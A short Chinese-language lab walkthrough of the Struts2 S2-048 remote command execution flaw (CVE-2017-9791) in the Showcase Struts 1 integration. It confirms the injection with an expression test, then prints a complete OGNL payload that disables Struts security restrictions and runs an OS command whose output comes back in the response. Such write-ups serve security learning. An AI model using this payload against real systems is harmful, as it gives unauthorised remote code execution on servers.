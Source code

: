 # st2-048远程命令执行（CVE-2017-9791）by [anonymity3712](https://github.com/anonymity3712)

## 漏洞描述

CVE-2017-9791即st2-048漏洞，是在Struts 2.3.x 系列的 Showcase 应用中演示Struts2整合Struts 1 的插件中存在一处任意代码执行漏洞。当你的应用使用了Struts2 Struts1的插件时，可能导致不受信任的输入传入到ActionMessage类中导致命令执行。

## writeup

启动靶场环境

选择Integration中的Struts 1 Integration

![](./20200513142620.png)

在Gangster Name处输入`${1+1}`，Gangster Age和Gangster Description处随意填写

![](./20200513142803.png)

点击Submit按钮

返回1+1的运算结果，证明漏洞存在

![](./20200513143114.png)

重新访问/integration/editGangster.action页面，进行burp抓包。

构造payload

```
%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

payload需要进行url转码

![](./20200513143922.png)

![](./20200513144117.png)

获取flag

也可以直接利用工具一把梭

![](./20200513144307.png)/20200513142620.png)
